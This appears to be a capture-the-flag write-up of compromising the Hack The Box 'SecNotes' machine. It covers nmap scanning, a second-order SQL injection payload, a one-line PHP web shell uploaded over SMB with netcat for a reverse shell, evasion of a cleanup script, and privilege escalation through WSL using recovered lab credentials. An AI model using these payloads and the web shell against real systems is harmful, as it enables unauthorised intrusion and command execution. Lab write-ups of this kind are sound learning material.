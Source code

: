 ## Welcome to my second WriteUp. This time I rooted the SecNotes box and I am gonna tell you how I did it.

## First Step

Always the first step is to enumerate the target. My target is on the 10.10.10.97 (SecNotes' IP). I used the **nmap** tool to find open ports and vulnerabilities. So I executed the next command:

`nmap -sC -sV -oA nmap/nmap-init 10.10.10.97`

I used the next options
- -sC: Use default scripts for common vulnerabilities
- -sV: Determine service / version information
- -oA: Output in the three major formats at once. It's great if you want to have many formats of the same output for different usages.

The results are below and as we can see, there are two open ports. One is **80** (__http__ => __Version: Microsoft IIS httpd 10.0__) and the second is the port **445** (__microsoft-ds__).

![nmap](/prtsc/1-firstNmap.png)

We can see that we have to deal with a **Windows 10** machine. That's something that we should have in mind as we proceed deeper in this box.

In general, the next step is to open the web application in a browser and search main page's source code to find an information that has been leaked or some hint for our next move. In this case we have just a login port.

![port80](/prtsc/2-port80.png)

## Let's get dirty

Nothing much here. I tried to log in with some default credentials like __admin/admin__ or __admin/password__ but I didn't have any luck with them so the next thing on my list is to try to do a SQLi(njection). Let's see how that went.

![sqli](/prtsc/3-loginSQLi.png)

I tried my HtB's username (_akumu_) plus some weird characters, but it didn't work. So the programmer here did a good job.

Then I pressed the **Sign up now** button on the botom of the screen and I went a new form where I can sign up any user I want.
I was stuck at this page and I didn't know what to do. I could create a user and after I could sing in with these credentials but that wasn't enough. I wanted to find something. So the Second Order SQLi(njection) came to my mind.

If you want to read more about Second Order SQLi, you can press [here](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)!

So the first thing I tried it was to create a user with the name `k` and to do my injection here. The password doesn't really matter, but you have to follow the security rules of the current form.

![secondOrder](/prtsc/5-secondOrderSQLi.png)

_My password is the same as my username, but you can use anything you want._

So, now I have a corrupted database that can exploit just by doing a _normal_ sign in to the page. Let's see if that works.

![testing](/prtsc/6-SecondOrderSQLiPage.png)

**It just works!**
As you can see there are some weird numbers in my page that shouldn't be there. So let's go back and try something different. Back @ `10.10.10.97/register.php`. Now I am trying to perform a log in through second order, and to achieve that I tried the classic `' or '1=1'-- -` trick as you can see in the next image. `V` is just a username I choosed, it doesn't matter.

![logIn](/prtsc/4-SecondOrderSignIn.png)

Ok, we passed the corrupted user again in the database and now we can call him. Let's sign in.

![tyler](/prtsc/7-tylerNotes.png)

What is this?? Oh that's Tyler's page. And he has some notes for __us__. Let's read them.

So in the note with the title **new site** we have some intresting things. First of all, there are some credentials that I can save for later (__tyler / 92g!mA8BGj0irkL%OG*&__), and one path. The path says `\\secnotes.htb\new-site`. But what is this you are asking? This is a shared folder.

## Folders, folders and folders!

I can **mount** the folder from the web server to my machine and move files in or out.
The command I used to mount the folder was:

`mount -t cifs -o vers=1.0,username=tyler //secnotes.htb/new-site /mnt/temp`

I used the next options
- -t: Limit the set of filesystem types
- -o: Comma-separated list of mount options. I used _vers_ to define the version that I want to use and _username_ to authenticate myself.
- The path for the path for the folder on the server.
- The local path that will mount the folder

As you can see in the picture below, after the mount is complete, I can see the files inside it, and also I can read and write in this folder.

![mount](/prtsc/8-mountCifs.png)

At this point, I runned a full TCP scan for open ports in the machine. The command I used was:
`nmap -sT -p- -oA nmap/nmap-full-ports 10.10.10.97`

I used the next options
- -sT: TCP connect() scan
- -p-: Only scan specified ports. If you use -p- scan all the ports instead.
- -oA: Output in the three major formats at once.

My new results.

![full](/prtsc/9-fullNmap.png)

I just found a new port @ **8808**. I will open this port in my browser and I will see the next page.

![IIS](/prtsc/10-port8808.png)

So here we have another page. It's the default page of the **Internet Information Service of Windows**. Looking the source code of the page, I didn't find anything.

## RCE and Reverse Shell

Back where we were. To get a reverse shell from the server back to my machine, I had to put my `reverse shell PHP file` with a `nc.exe` (this is the executable of **netcat** for Windows) in the shared folder. My `shell.php` file, it's an oneliner.

`<?php system($_GET["cmd"]); ?>`

![watch](/prtsc/11-watch1min.png)

Then I tested my file to see if it works, with a simple `whoami` command through the portal on port **8808**. The results are in.

![whoami](/prtsc/12-RCE-whoami.png)


Next step is to set a reverse shell with a netcat listener in my end, and the `nc.exe` file on the server.

![firstshell](/prtsc/13-firstShell.png)

So here I am. In the Windows server, connected as `secnotes\tyler`. The problem is that after a while I lost my reverse shell and when I went back into the share folder, my files were gone. So I did everything again and I got a new reverse shell. Then as fast as I could I tried to find a clue about that. It didn't take me long to find the next script on the server.

![cleanup](/prtsc/14-cleanupScript.png)

So what it does, it checks the shared folder every 5 minutes for files that they don't start with `iisstart` and it removes them. So I renamed my files into `iisstart.php`(old _shell.php_) and `iisstart.exe`(old _nc.exe_). After that I had a stable reverse shell to play around, as you can see in the next picture.

![stableShell](/prtsc/15-stableShell.png)

Searching in the folders of the server, I found a `Distros` folder, which I didn't knew what it is at this point. Going inside I found an interesting file as you can see in the next 2 screenshots.

![distros](/prtsc/16-DistrosDir.png)

![ubuntu](/prtsc/17-ubuntuExe.png)

I executed the `ubuntu.exe` in the server but nothing happened. *Or atleast I didn't see something*. I searched for the `user.txt` file because I didn't know what else to do. I found the `user.txt.` as you can see in the next picture.

![user](/prtsc/18a-usertext.png)

At this point I didn't know much about IIS so I went back on searching and reading. If you want to check it out, a good place to start is [here](https://docs.microsoft.com/en-us/windows/wsl/about). So all I have to do was to execute a file called `wsl.exe`.

![wsl](/prtsc/19-UbuntuRoot.png)

As you can see, I didn't know where the file is so I searched with `WHERE -R wsl.exe`. After the execution I saw an empty line and an error. I was confused and I thought that I broke something. I tried to run `id` and I was suprised when I saw that I am the `root`. *But where?* Do you remember that `ubuntu.exe` from before? Yeah, that's correct. I was inside that "box".

So now I have to find something on this box. I checked the root's `.bash_history`, and I found a new command that was used to mount the filesystem as the `administrator` of the Windows machine, with the administrators' password. That was it. I had to execute again the same command.

![smbclient](/prtsc/20-smbclient.png)

After that, the box was done. I was back on the Windows machine and I was the administrator. I searched for the `root.txt` and I got it.

![root.txt](/prtsc/21-rootTxt.png)

## THE END

This was the box, and actually was really fun. I learned a ton of new things and it was really challenging. I suggest this box to everyone.

**Have fun and happy hacking!!**

by *Akumu*.
